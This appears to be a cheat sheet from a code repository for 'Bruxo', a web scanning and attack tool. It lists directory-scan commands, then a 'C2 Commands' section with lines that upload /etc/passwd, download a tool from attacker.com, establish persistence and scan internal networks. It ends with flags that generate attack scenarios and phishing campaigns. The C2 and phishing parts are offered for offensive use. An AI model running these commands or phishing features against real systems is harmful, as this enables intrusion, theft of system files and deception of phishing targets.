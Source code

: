 # Bruxo Cheat Sheet

A quick reference guide for common Bruxo commands.

## Scanning

- **Basic Scan**: `./bruxo -u <URL> -w <WORDLIST> -o report.html`
- **Fast Scan**: `./bruxo -u <URL> -w <WORDLIST> -t 200`
- **Scan with Extensions**: `./bruxo -u <URL> -w <WORDLIST> -x ".php,.js"`
- **Executive PDF Report**: `./bruxo -u <URL> -w <WORDLIST> --report-format pdf --report-type executive -o report.pdf`

## C2 Commands (via Technical Report)

- **Get Shell Info**: `whoami && id`
- **List Files**: `ls -la`
- **Establish Persistence**: `persist`
- **Upload File**: `upload /etc/passwd`
- **Download Tool**: `download http://attacker.com/tool.sh /tmp/tool.sh`
- **Scan Internal Network**: `internal_scan 192.168.1.0/24`

## AI Features

- **Generate Attack Scenarios**: Add the `--attack-flow` flag to your scan command.
- **Generate Phishing Campaign**: Add `--gen-phishing-campaign "Target Persona"` to your scan command.
